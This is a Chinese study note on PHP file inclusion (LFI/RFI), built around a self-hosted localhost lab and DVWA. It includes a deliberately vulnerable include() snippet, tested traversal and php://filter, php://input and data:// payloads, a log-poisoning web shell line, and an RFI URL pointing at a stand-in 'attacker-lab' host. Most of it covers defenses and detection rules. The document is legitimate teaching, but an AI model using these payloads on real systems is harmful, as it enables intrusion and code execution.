

# 48. 文件包含（LFI/RFI）

> 日期：2026-11-13
> 所属大纲阶段：3. Web 安全
> 参考资料：
> - OWASP WSTG v4.2 — Test File Inclusion（INPV-11：11.1 LFI / 11.2 RFI）（`https://owasp.org/www-project-web-security-testing-guide/`）
> - OWASP File Inclusion Cheat Sheet（`https://cheatsheetseries.owasp.org/cheatsheets/File_Inclusion_Cheat_Sheet.html`）
> - PHP 官方手册：filesystem 配置（`https://www.php.net/manual/en/filesystem.configuration.php`）、支持的协议与包装器（`https://www.php.net/manual/en/wrappers.php`）、Null 字节相关问题（`https://www.php.net/manual/en/security.filesystem.nullbytes.php`）
> - Synacktiv（Alexandre Zanni）：PHP filters chain: What is it and how to use it（2022-10，`https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it`）
> - DVWA v1.9 官方源码（`vulnerabilities/fi/`，`https://github.com/digininja/DVWA`）
> - CWE-98（Improper Control of Filename for Include/Require Statement）/ CWE-22（路径遍历），MITRE 官方条目

---

## 0. 阅读前提与安全红线

- 读者画像：读过笔记 11（SQL 注入）与 14（文件上传），理解「把用户输入当代码/解释器输入」这一共同本质。
- **本篇全部 payload 与利用流程仅限本地靶场（自建 mini-lab、DVWA、vulhub 等）使用**；对真实第三方系统的探测与利用属违法行为。
- 本篇标注「实测」的命令输出，均在本人环境实际运行：macOS（Apple Silicon）+ PHP 8.4.12 CLI 内置服务器（`php -S`）。生产环境多为 Linux + php-fpm，个别路径（如日志位置）以目标系统实际为准；标注「示意」的输出不是实测，仅用于说明形态。

---

## 1. 定义：包含与读取的区别

**文件包含（File Inclusion）** 指程序把**用户可控的输入**直接拼进 `include`/`require` 这类「把文件加载进来执行」的语句。按能否包含远程资源分两型：

| 类型 | 全称 | 一次成立的条件 | 上限危害 |
| --- | --- | --- | --- |
| **LFI** | 本地文件包含（Local File Inclusion） | `include($_GET[...])` 且无路径约束 | 任意文件读取 → 借助包装器/日志/会话升级为 **RCE** |
| **RFI** | 远程文件包含（Remote File Inclusion） | 同上，且 PHP `allow_url_include=On`（默认 **Off**） | 直接 **RCE**（远程脚本被包含即执行） |

与相邻概念划清边界（CTF 与实际测试中经常混称）：

- **路径遍历（Path Traversal，CWE-22）**：`open()/readfile()/sendFile()` 等**读文件**的 API 被穿越，危害是**任意文件读取（数据外泄）**；
- **文件包含（CWE-98）**：`include()` 等**加载执行**的 API 被穿越，被包含文件里的服务端代码会被解析执行——既是信息泄露又是执行原语，**危害等级更高**；
- **文件上传（笔记 14）**：提供「把内容写进目标文件系统」的材料；上传 + 包含组合拳（图片马 + LFI）是经典 RCE 链；
- **反序列化（笔记 15）**：`phar://` 包装器把包含原语接到反序列化 gadget 上（§4.6）。

WSTG v4.2 的编号是 **INPV-11**（11.1 LFI / 11.2 RFI），归在「输入校验测试」族（笔记 29 附有完整对照表）。

一句话本质：**SQL 注入把输入喂给 SQL 解释器，文件包含把「文件路径」喂给了加载器——而路径在 PHP 里是一个远比想象中强大的语言特性（流包装器）**。

---

## 2. 原理：为什么 include 的参数如此危险

### 2.1 脆弱代码形态

```php
// vuln.php —— 教学用故意脆弱程序，仅限本地学习环境
<?php
$file = $_GET['page'] ?? 'pages/home.php';
include($file);
```

这是「页面路由」需求的懒惰实现：开发者想要 `?page=about` 渲染 `pages/about.php`，但**没有对 `page` 做任何约束**，于是 `page` 可以是：

1. 相对/绝对路径（`../../etc/passwd`）——穿越；
2. **流包装器（stream wrapper）**（`php://filter/...`、`data://`、`phar://`）——PHP 把 `scheme://` 开头的「文件名」交给对应协议处理器，能力远超文件读写；
3. 远程 URL（`http://attacker-lab/shell.txt`）——当 `allow_url_include=On` 时即 RFI。

`include` 与 `require` 家族（`include_once`/`require_once`）的危险性同源；`include` 失败仅告警继续执行，`require` 失败致命中止——对利用者只影响错误回显形态。

### 2.2 漏洞成立的两个前提

1. **包含路径含用户输入**（直接拼接、拼接前缀/后缀、或「先拼接后校验」的顺序错误）；
2. **被包含内容会被服务端解析**：PHP 场景下任意文件被 include 后，其中的 `<?php ... ?>` 片段会被执行；纯文本文件（如 `/etc/passwd`）则被原样输出——这就是「包含 = 读取 + 可能执行」。

### 2.3 其他语言的对照（为什么例子总是 PHP）

| 环境 | 类似风险 | 说明 |
| --- | --- | --- |
| JSP/Servlet | `<jsp:include page="<%=param%>">`、`RequestDispatcher.forward()` 拼接用户输入 | 包含的是**已部署资源路径**，无流包装器语义；常以路径遍历形式出现 |
| JSTL | `<c:import url="...">` | url 可控时可包含**远程**内容（接近 RFI 语义），且可配 varReader 只读 |
| Python | `open(user_path)`、`send_file(user_path)` | 无「包含执行」语义，风险是任意读/写（遍历）；Flask `render_template(user)` 按模板名查目录，是安全的（除非用户输入进 `render_template_string`，那是 SSTI） |
| Node.js | `res.sendFile(path.join(dir, user))` | `path.join` 会归一化 `../`，穿越成立；无执行语义 |

结论：**「包含」这一执行语义 + 流包装器** 是 PHP 独有的组合拳，本篇以 PHP 为主线；其他语言按「路径遍历（读）」处理，防御套路（§7）通用。

---

## 3. mini-lab：从包含到穿越（实测）

### 3.1 环境

```text
$ php -v
PHP 8.4.12 (cli) (built: Aug 26 2025) ... (macOS Homebrew)
$ php -r 'echo ini_get("allow_url_include") ?: "0", " ", ini_get("allow_url_fopen"), "\n";'
0 1        # allow_url_include 默认关闭，allow_url_fopen 默认开启（与官方文档一致）
```

目录（建在本机临时目录，如 `/tmp/lfi-lab`，**不要写进 `labs/`——那是实验记录区**）：

```text
/tmp/lfi-lab/
├── vuln.php            # §2.1 的脆弱路由
├── vuln2.php           # §6 的后缀拼接变体
└── pages/
    ├── home.php
    └── about.php
/tmp/lfi-lab-secret.txt # 模拟「Web 根之外的敏感文件」
```

启动：`php -S 127.0.0.1:8080`（当前目录即 Docroot）。

### 3.2 正常功能与穿越（实测输出）

```text
$ curl -s "http://127.0.0.1:8080/vuln.php?page=pages/about.php"
about page

$ curl -s "http://127.0.0.1:8080/vuln.php?page=../../../../tmp/lfi-lab-secret.txt"
internal-token-for-lab: LAB_ONLY
```

第二条就是最小 LFI：`page` 走出 Docroot 读到了敏感文件。Linux 目标上的经典探测目标：`/etc/passwd`（存在性与回显格式）、`/etc/issue`（发行版）、`/proc/self/environ`（旧版 PHP 的进程环境变量，现代环境多为 644 root、不可读）、`/proc/self/cmdline`。

### 3.3 读源码：php://filter（实测输出）

直接 `include('vuln.php')` 只会执行它、看不到源码。用 `php://filter` 把内容**编码后输出**：

```text
$ curl -s "http://127.0.0.1:8080/vuln.php?page=php://filter/convert.base64-encode/resource=vuln.php"
PD9waHAKLy8gdnVsbi5waHAg4oCU4oCUIOaVmeWtpueUqOaVheaEj+iEhuW8seeoi+W6j++8jOS7hemZkOacrOWcsOWtpuS5oOeOr+WigwokZmlsZSA9ICRfR0VUWydwYWdlJ10gPz8gJ3BhZ2VzL2hvbWUucGhwJzsKaW5jbHVkZSgkZmlsZSk7Cg==

$ curl -s "..." | base64 -d    # 解码即 vuln.php 源码
<?php
// vuln.php —— 教学用故意脆弱程序，仅限本地学习环境
$file = $_GET['page'] ?? 'pages/home.php';
include($file);
```

原理：`include()` 打开的是 `php://filter` 流，filter 处理器先读 `resource=` 指向的文件、再套编码，最终「文件内容」是 Base64 文本——PHP 不会执行它，只会原样输出。**这一步把黑盒变成白盒**：拿到全部源码后再审计二次漏洞（上传点、反序列化点、硬编码密钥）。

其他常用 filter：`string.rot13`（实测 `resource=pages/about.php` 回显 `<?cuc rpub "nobhg cntr\a";`）、`zlib.deflate/inflate`、`convert.iconv.*` 字符集转换（filter chain 技术 §4.5 的原料）。

---

## 4. LFI 升级为 RCE 的六条路径

LFI 的终局不是读文件。按「可控内容如何进入一个会被包含的文件」分类：

### 4.1 日志包含（log poisoning）

```text
① 请求携带注入 UA：User-Agent: <?php system($_GET['c']); ?>
   → Apache/Nginx 把整行写进访问日志
② LFI 包含日志：?page=/var/log/nginx/access.log&c=id
   → 日志里的 PHP 片段被 include 执行
```

前提：知道日志路径（`/var/log/nginx/access.log`、`/var/log/apache2/access.log`，路径因发行版而异）、Web 进程用户对日志**可读**（默认权限下常不可读——这本身就是一道防御，见 §7.4）。Nginx 的 `client_body_temp_path` 写入的 POST 体文件、FTP/SSH 日志（`/var/log/auth.log` 写入尝试登录的用户名）是同源变体。

### 4.2 会话文件包含

PHP 默认把会话序列化存为 `/tmp/sess_<PHPSESSID>`（`session.save_path`），若会话中某个键来自用户输入（用户名、答题进度），注入 `<?php ... ?>` 后包含该文件即执行。前提：能猜/读到自己的 `PHPSESSID`（知道即可，不需要别人的）、`save_path` 可读。

### 4.3 上传文件包含（联动笔记 14）

上传目录禁了 PHP 解析也拦不住这条链：**执行者是 LFI 端点，不是上传目录**。上传一张含 PHP 片段的图片（图片马），再用 `?page=uploads/avatar123.jpg` 包含。防御要点在 §7.5（存储隔离 + 内容净化）。

### 4.4 php://input 与 data://（RFI 语义的本地化）

`allow_url_include=On` 时（靶场故意开）：

```text
# php://input：POST 体即被包含的内容（实测）
$ curl -s -X POST --data-binary "<?php echo 'rce-via-input: '.php_uname(); ?>" \
    "http://127.0.0.1:18081/vuln.php?page=php://input"
rce-via-input: Darwin Mac 25.6.0 Darwin Kernel Version 25.6.0 ...

# data://：把代码直接写进 URL（实测，需 allow_url_include=1 启动服务器）
$ curl -s "http://127.0.0.1:18081/vuln.php?page=data://text/plain;base64,PD9waHAgLi4u"
data-wrapper-rce: Darwin Mac 25.6.0 ...
```

对照实验（实测）：默认配置下（`allow_url_include=0`）请求 data:// 得到：

```text
Warning: include(): data:// wrapper is disabled in the server configuration
by allow_url_include=0 in /private/tmp/lfi-lab/vuln.php on line 4
```

——**错误信息本身是配置指纹**：看到这行说明目标关着 RFI，应转攻本地路径。

### 4.5 php://filter chain：无需任何可写文件的 RCE（2022）

Synacktiv 在 2022-10 公开的技术（工具 `php_filter_chain_generator`）：把几十个 `convert.iconv.*` 与 `convert.base64-*` 过滤器串成链，**从空输入逐步变换出任意字节的 Base64 编码内容**，使 `include("php://filter/.../resource=php://temp")` 的「文件内容」变成攻击者想要的 `<?php ... ?>` 代码——不需要日志、不需要上传、不需要会话，只要一个纯粹的 LFI 点就能 RCE。真实利用案例：WordPress Backup Migration 插件 RCE（CVE-2023-6553）。

局限：payload 很长（生成器输出约 14KB 级别的 URL/参数），且要求目标 PHP 编译了 iconv。对防御者的启示：**LFI 在 PHP 里必须按 RCE 同级对待**，不存在「只是读文件」的侥幸。

### 4.6 phar:// 与反序列化联动（联动笔记 15）

`include`/`file_exists`/`filesize` 等大量文件函数遇到 `phar://x.jpg/1.txt` 时会反序列化 phar 归档的 metadata。攻击者上传构造好的 phar（伪装成图片），再借 LFI/文件函数触发，接上 POP 链。`phar.readonly` 默认 On 只限制**生成** phar，不拦截**触发**。原理与链条构造见笔记 15 §phar 小节。

---

## 5. RFI：默认已死，但配置错误会复活

| 配置项 | 默认值 | 说明 |
| --- | --- | --- |
| `allow_url_fopen` | `1`（开） | 影响 `file_get_contents('http://...')` 等**读取**——开着也可能造成 SSRF 类问题（笔记 13） |
| `allow_url_include` | `0`（**关**） | `include`/`require` 处理 `http://`、`ftp://`、`data://`、`php://input` 等远程/流包装器的总开关；PHP 7.4 起该指令本身已弃用 |

`allow_url_include` 自 PHP 5.2 引入以来默认即 Off（官方手册当前值 `"0"`），且 7.4 起弃用——现代 PHP 里 RFI 基本只出现在故意打开它（或用旧镜像）的靶场/遗留系统。但注意两点：

1. `file_get_contents`/`fopen` + 远程 URL 的**读取**不受它管（`allow_url_fopen` 管），RFI 退化为 SSRF 的形态更常见；
2. 面试/认证考试仍高频考它，别把两个开关的作用域记反。

RFI 的利用形态（靶场）：`?page=http://attacker-lab/shell.txt`（被包含的远程文件含 PHP 代码，**不需要**对方执行 PHP，只需要能被 HTTP 取回）、`?page=data://text/plain;base64,...`（不依赖外连，见 §4.4 实测）。防御侧的检测特征：出站请求目标异常 + 参数含 `http://`/`data:`。

---

## 6. 绕过技巧矩阵：拼接与过滤的对抗

### 6.1 后缀拼接（`include($f . '.php')`）

| 手法 | 条件 | 原理 |
| --- | --- | --- |
| `%00` 截断 | PHP < 5.3.4 | C 字符串止于空字节，`.php` 被截掉；5.3.4 起文件系统函数拒绝含空字节的路径（实测 8.4：`Warning: Failed opening '../../../../tmp/lfi-lab-secret.txt'`，包含失败） |
| 路径长度截断 | 老 Windows（MAX_PATH）/极老 Linux | 超长路径尾部落盘即丢弃，历史考点 |
| `php://filter` 读源码 | resource 不受拼接影响 | 拼上 `.php` 恰好补全目标文件名（实测 `?f=php://filter/convert.base64-encode/resource=pages/about` + `.php` → 回显 about.php 源码的 Base64） |
| 远程目标（RFI 场景） | `allow_url_include=On` | URL 语境下 `?` 能截断后缀：`http://host/shell.txt?` 拼上 `.php` 后缀只落在「查询串」里；本地路径中 `?` 是普通文件名字符，此法不成立 |

### 6.2 前缀拼接（`include('pages/' . $f)`）

数 `../` 层数直接抵消前缀即可，无特殊技巧。

### 6.3 黑名单过滤（以 DVWA v1.9 官方源码为对象）

DVWA File Inclusion 模块四个级别的源码（`vulnerabilities/fi/source/`，已对照官方仓库核对）：

```php
// low.php —— 无任何校验
$file = $_GET[ 'page' ];

// medium.php —— 黑名单替换
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

// high.php —— 通配符白名单
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    echo "ERROR: File not found!"; exit;
}

// impossible.php —— 枚举白名单
$configFileNames = [ 'include.php', 'file1.php', 'file2.php', 'file3.php' ];
if( !in_array($file, $configFileNames) ) { echo "ERROR: File not found!"; exit; }
```

逐级审计（对照 SQL 注入篇的黑名单规律：**黑名单必败，白名单收敛**）：

- **Medium**：`str_replace` 是单趟非递归替换。双写穿越（实测）：`....//....//tmp/x` 替换掉中间的 `../` 后剩下 `../../tmp/x`；`http://` 被删则说明设计者想防 RFI，但 `hthttp://tp://` 双写或大小写变形即穿；被删的是字面量，`php://filter`（无 `http://`）完全不受影响。
- **High**：`fnmatch("file*", $file)` 要求以 `file` 开头——但 `file://` 包装器满足它（实测 `fnmatch("file*","file:///etc/hosts")` 返回 1）：`?page=file:///etc/hosts` 以本地文件协议读任意绝对路径，白名单形同虚设。这是「模式匹配当白名单」的典型事故：**校验的是形状，不是身份**。
- **Impossible**：枚举映射到固定文件，输入永远不进路径——正解（§7.1 的标准实现）。

### 6.4 编码与变形（针对过滤实现）

`%2e%2e%2f`（URL 编码）、`..%c0%af`（超长 UTF-8 编码，历史 IIS/老解析器）、`%2f` 路径分隔符——是否有效取决于**过滤发生在 URL 解码之前还是之后**（先后顺序问题与笔记 11 的二次解码同源）。审计时永远先问：这个过滤函数看到的字符串，和最终传给 `include` 的字符串，是同一个吗？

---

## 7. 防御专章（重点）

防御金字塔（与笔记 11/12/14 同构）：



### 7.1 主修复：白名单映射（路由表）

```php
<?php
// 路由表模式：用户输入只决定「选哪个键」，永远不参与路径拼接
$routes = [
    'home'  => __DIR__ . '/pages/home.php',
    'about' => __DIR__ . '/pages/about.php',
];
$page = $_GET['page'] ?? 'home';
if (!array_key_exists($page, $routes)) {
    http_response_code(404);
    exit('not found');
}
include $routes[$page];
```

DVWA Impossible 级即此模式。需要「动态多页面」时，路由表来自配置/数据库枚举，而不是文件系统扫描。

### 7.2 次选：realpath 包含校验（确需动态路径时）

```php
<?php
$base = realpath(__DIR__ . '/pages');
$full = realpath(__DIR__ . '/pages/' . $_GET['f']);   // 解析掉 ../、符号链接
if ($full === false || !str_starts_with($full, $base . DIRECTORY_SEPARATOR)) {
    http_response_code(403);
    exit('path rejected');
}
include $full;
```

要点：`realpath()` 同时完成**归一化与存在性检查**；前缀比较必须带目录分隔符（防 `/pagesevil` 前缀绕过）。Java 对应 `File.getCanonicalPath().startsWith(baseDir)`，Python 用 `os.path.realpath` + `commonpath`。`basename()` 只剥路径段，单独使用不够（剥完仍可与 include_path 串扰），只作为辅助。

### 7.3 运行环境收紧（php.ini）

```ini
allow_url_include = Off      ; 默认即 Off，保持；RFI 与 php://input、data:// 一并封死
open_basedir = /var/www/app:/var/www/app/uploads   ; 把文件系统访问钉死在白名单目录树
session.save_path = "/var/lib/php/sessions"        ; 独立目录，权限 1733/0700 root:root
```

`open_basedir` 是 PHP 级沙箱（可被禁用的绕过属于 CTF 进阶，见笔记 36 §3.9），即便 LFI 发生也把可触达文件圈死在应用目录；注意它**不是**内核级边界，纵深而非根治。

### 7.4 权限与部署隔离

- Web 进程用户（`www-data`/`nginx`）**不可读**日志原文、会话目录（会话目录属 root、模式 1733——能写能列不能读是历史遗留，至少做到不可读他人会话）、`/proc/self/environ` 类敏感 `/proc` 条目；
- 容器化部署：应用容器只挂载必要目录（日志外送而非本地可读），把「日志包含」的原料从文件系统里拿掉（联动笔记 49 §8）。

### 7.5 模板引擎代替原生包含

用 Twig/Blade/Jinja2 的「模板名 + 引擎查目录」模型替代 `include(路径)`：模板名不允许 `../`，引擎负责在受控目录内解析。这同时消灭了 LFI 与「上传物被当代码」两件事——上传物永远走静态存储（笔记 14 §「重命名 + 隔离存储」）。

### 7.6 防御检查清单

- [ ] 全局搜 `include`/`require`/`import`/`forward`，逐个确认参数来源不含用户输入（含间接：数据库里存的「主题名」「语言文件名」）
- [ ] 动态路径点逐一套用 §7.2 的 realpath 校验或改为 §7.1 路由表
- [ ] `allow_url_include=Off` 写入部署基线（并监控 drift）
- [ ] `open_basedir` 覆盖全部 vhost；`session.save_path` 权限核对
- [ ] Web 用户对日志/会话/`/proc` 的读权限清单化，默认拒绝
- [ ] 上传物存储与 Web 根分离、独立（静态）域名提供
- [ ] WAF/应用侧对 `page|file|path|lang|tpl` 类参数做 `../`、`php://`、`data:` 模式告警（纵深，见 §8）

---

## 8. 检测与应急

### 8.1 日志与流量特征

```text
访问日志（URL 解码后观察）：
  GET /?page=../../../../etc/passwd
  GET /?page=php://filter/convert.base64-encode/resource=index.php
  GET /?page=/var/log/nginx/access.log          ← 日志包含的倒数第二步
  POST /?page=php://input                        ← 请求体含 <?php 片段

行为特征：
  同一参数连续探测多个绝对路径（/etc/passwd → /etc/nginx/ → 日志路径）＝ 手工/脚本枚举
  data:text/plain 或 data://…;base64 出现在参数里
```

### 8.2 告警规则思路

| 维度 | 规则 |
| --- | --- |
| 参数侧 | URL 解码后匹配 `\.\./`、`php://`、`data://`、`phar://`、`/var/log/`、`sess_` |
| 响应侧 | 参数含 `convert.base64-encode` 且响应体为合法 Base64 长串（filter 读源码指纹） |
| 行为侧 | 单 IP 对包含类参数的高频路径枚举；`php://input` 后跟随异常出站连接（外带） |

### 8.3 应急流程（联动笔记 34）

```text
1. 定位入口：哪个参数、哪个端点（从日志回溯首条成功穿越请求）
2. 评估升级：检索日志中是否出现 日志包含/php://input/data:// 痕迹 → 有则按 RCE 处置
   （WebShell 排查联动笔记 14 §应急）
3. 短期缓解：WAF 拦截该参数模式；必要时临时关闭动态包含路由
4. 根修：路由表/realpath 校验（§7）；核对 open_basedir 与权限基线
5. 影响评估：穿越读到了哪些敏感文件（配置、密钥 → 按笔记 32 流程轮换）
6. 复盘：把该参数的 payload 集加进回归用例
```

---

## 9. CTF 视角与真题套路（索引）

CTF 中 LFI 常作为「链条中间件」出现，完整题型与套路（后缀拼接绕过、filter 链 RCE、phar 联动、session 竞争条件）见笔记 36 §3.8。记住三条链式思维：

- **LFI + 上传 = RCE**（图片马）；
- **LFI + 反序列化 = RCE**（phar 元数据）；
- **纯 LFI = RCE**（filter chain，2022 后的新常态）。

---

## 10. 常见误区

| 误区 | 事实 |
| --- | --- |
| 「LFI 最多读读文件」 | PHP 的流包装器 + filter chain 使纯 LFI 也能 RCE（§4.5） |
| 「过滤掉 `../` 和 `http://` 就安全了」 | 双写、编码、包装器绕过（§6.3 实测）；黑名单结构性必败 |
| 「`basename()` 就够了」 | 只剥路径段；配合 include_path 与流包装器仍有旁路，主防御应是白名单/realpath |
| 「`allow_url_include` 关了就没有 RFI」 | 对；但 `allow_url_fopen`（默认开）管不到 include 却管得到 `file_get_contents`，那是 SSRF 面（笔记 13） |
| 「`%00` 截断还能用」 | PHP ≥ 5.3.4（2010）即失效；只在老靶机/历史题里出现 |
| 「包含 `.jpg` 没危险」 | 执行者是 include 端点，与被包含文件扩展名无关（图片马链） |
| 「fnmatch 前缀校验算白名单」 | DVWA High 实证：`file://` 满足 `file*`；形状校验 ≠ 身份校验 |

---

## 11. 自测问题

1. LFI 与路径遍历、RFI 三者的 API 语义与危害上限分别是什么？各举一个 CWE 编号。
2. `php://filter/convert.base64-encode/resource=index.php` 为什么能把源码带出来，而直接 `include('index.php')` 不能？
3. 从「可控内容进入被包含文件」的角度，归纳 LFI 升级 RCE 的路径，并说明各自的前提条件。
4. `allow_url_include` 与 `allow_url_fopen` 各自管哪些协议处理场景？默认值分别是什么？
5. DVWA Medium 的两层 `str_replace` 为什么挡不住 `....//....//etc/passwd`？写出替换后的最终字符串。
6. DVWA High 的 `fnmatch("file*", ...)` 为何被 `file://` 击穿？这说明「白名单校验」应该校验什么？
7. `realpath()` + 前缀比较的防御代码里，为什么要拼接 `DIRECTORY_SEPARATOR` 再比较？
8. 检测侧：给出三条针对 LFI 的告警规则（参数/响应/行为各一），并说明 filter 读源码在响应侧的指纹。
9. 应急时如何区分「只发生了任意文件读取」与「已升级 RCE」？后者额外要做哪些处置？
10. 上机任务：复刻 §3 mini-lab，实测穿越与 filter 读源码；再在 `allow_url_include=1` 的实例上完成 `php://input` 与 `data://` 的 RCE 对照实验；最后把 vuln.php 按路由表模式重写并验证攻击全部失效。

---

## 12. 小结

- 文件包含 = **「路径」这个输入被喂给了带执行语义的加载器**；PHP 的流包装器把路径变成语言特性，危害上限定格在 RCE。
- 攻击主线：穿越读 → filter 读源码白盒化 → 借日志/会话/上传/filter chain 升级执行。
- 防御主线：**输入永不进路径**（路由表）> realpath 收殓 > 运行环境（`allow_url_include`/`open_basedir`/权限隔离）> 监控告警。
- 黑名单替换与形状匹配（fnmatch）都有实证绕过；理解对抗史的意义在于不再依赖它们。

---

（完。延伸阅读：上传与包含的组合拳见笔记 14，phar 反序列化见笔记 15，SSRF 边界见笔记 13，CTF 题型见笔记 36 §3.8。）
